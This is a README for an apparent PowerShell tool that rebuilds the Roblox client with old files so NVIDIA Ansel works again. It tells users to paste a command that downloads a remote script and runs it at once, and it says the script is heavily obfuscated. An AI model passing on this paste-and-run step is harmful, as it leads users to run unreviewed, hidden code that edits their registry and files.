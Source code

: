 Ansel Builder for Roblox

This is a powershell script that uses your current roblox client and re-builds it with some old files from the last known version where NVIDIA Ansel was supported.

## What does this script do?

- It downloads an older build of Roblox (around 90MB) and merges it with your current client.
- Renames RobloxPlayerBeta.exe to Minecraft.exe for Ansel/Game Filter compatibility.
- Changes registry keys to open Roblox from the browser
- Restores Desktop/Program Shortcuts for Roblox

## How do I run the file?

__Download the .ps1 file [here](https://github.com/chrowmiee/NVIDIABuild/releases/download/archive/NVIDIA.ps1), then right click on it and "Run with Powershell"__

**OR** 

✨ __Run the code using Powershell (Recommended)__ 
- __**Open Windows Powershell, paste this code and hit Enter.**__
  
```powershell -c "iwr https://github.com/chrowmiee/NVIDIABuild/releases/download/archive/NVIDIA.ps1 | iex"```

⚠️  **Do not close the script while it's extracting! **
 This may corrupt your current client, and you'll have to reinstall Roblox.

❌   **Close Roblox before running the script.**
Make sure Roblox is fully closed, check your Task Manager and end all processes; otherwise an error will pop-up. 

**🟩 NVIDIA ONLY** 
As always, this uses NVIDIA Ansel for Windows, and will not be supported by any non-NVIDIA GPUs.

✅ **The code is heavily obfuscated because I don't want people to modify the code and take my name taken out of the credits, thank you for understanding.**

This is a very robust and hacky solution, probably won't work in the future.
If you're having any issues with the script, please DM me @chrowmii on discord for support.
